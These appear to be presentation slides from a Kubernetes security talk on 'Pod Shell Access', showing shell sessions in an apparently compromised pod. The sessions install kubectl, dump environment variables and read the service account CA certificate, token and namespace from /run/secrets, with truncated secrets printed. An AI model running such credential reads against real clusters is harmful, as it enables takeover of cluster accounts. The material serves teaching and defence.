 ### 1. Pod Shell Access
### Prepare Workbench

[.code-highlight: 14]
[.code: #25DDC6]

```yaml
# Install kubectl
root@hckd# K8S_URL=https://storage.googleapis.com/kubernetes-release...        
root@hckd# export PATH=$pwd:$PATH && curl -LO $K8S_URL && chmod 555 kubectl
....
root@hckd# kubectl version
Client Version: version.Info{Major:"1",....

root@hckd# command -v openssl
/usr/bin/openssl

root@hckd# env
  KUBERNETES_SERVICE_PORT_HTTPS=443
  KUBERNETES_PORT_443_TCP=tcp://10.8.0.1:443
# KUBERNETES_PORT_443_TCP_ADDR=10.8.0.1
  KUBERNETES_SERVICE_HOST=10.8.0.1
```
---
### 1. Pod Shell Access
### Recon
[.code-highlight: none]
[.code-highlight: 1-2]
[.code-highlight: 4-15]

```coffeescript
root@hckd:/# ls -a /run/secrets/kubernetes.io/serviceaccount
.  ..   ca.crt   namespace   token

root@hckd:/# cat /run/secrets/kubernetes.io/serviceaccount/ca.crt | base64 -d
-----BEGIN CERTIFICATE-----
MIIELTCCApWgAwIBAgIRALzBzKkr57bIsgkyz+Do3xIwDQYJKoZIhvcNAQELBQAw
....

root@hckd:/# cat /run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI1NiIsImtpZCI6IkZTMEdpZzJTT1Rwc1ByMzJCLUw4U2xjS2VnZnhaVmxPd21Tal9ad
....

root@hacked-pod:/hack# cat  /run/secrets/kubernetes.io/serviceaccount/namespace
default
```

---
### 1. Pod Shell Access
### Default Service Account
[.code: #ECAF3F, #ECAF3F, #25DDC6, #25DDC6, #FFFFFF]
